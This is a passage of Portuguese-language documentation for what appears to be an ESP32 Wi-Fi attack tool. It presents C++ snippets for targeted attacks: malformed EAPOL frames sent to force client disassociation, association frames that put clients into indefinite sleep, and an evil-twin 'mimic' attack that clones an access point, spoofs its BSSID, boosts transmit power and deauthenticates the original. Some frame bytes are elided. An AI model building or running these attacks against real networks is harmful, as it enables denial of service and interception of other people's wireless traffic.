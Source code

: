 ```cpp
    "Winternet is Coming"
};
```

### 3.2 Targeted Attacks

#### Bad Message Attack
**Função:** Envia EAPOL frames malformados para causar disassociation

```cpp
void sendBadMsgAttack(uint8_t bssid[6], int channel) {
    // EAPOL frame com Key MIC inválido
    uint8_t eapol_frame[99] = {
        0x02, 0x03, 0x00, 0x5f,  // EAPOL header
        0x02,                     // Key descriptor
        // ... key info com MIC flag
        0x00, 0x00, 0x00, 0x00,  // Invalid MIC
    };
    
    sendFrame(bssid, eapol_frame, sizeof(eapol_frame));
}
```

#### Association Sleep Attack
**Função:** Força cliente a dormir indefinidamente

```cpp
void sendAssocSleepAttack(uint8_t bssid[6], uint8_t client[6]) {
    // Association frame com Listen Interval = 0xFFFF
    uint8_t assoc_frame[26] = {
        0x00, 0x00,              // Frame Control
        // ...
        0xFF, 0xFF,              // Listen Interval (máximo)
        // ...
    };
    
    sendFrame(bssid, assoc_frame, sizeof(assoc_frame));
}
```

### 3.3 Mimic Attack
**Função:** Clona AP alvo e atrai clientes

```cpp
void mimicAP(AccessPoint target) {
    // Copia SSID, canal, security
    WiFi.softAP(target.essid.c_str(), "", target.channel);
    
    // Spoofar BSSID
    esp_wifi_set_mac(WIFI_IF_AP, target.bssid);
    
    // Aumentar potência TX
    esp_wifi_set_max_tx_power(78);  // 19.5 dBm
    
    // Deauth original AP
    sendDeauth(target.bssid, broadcast_mac);
}
```

---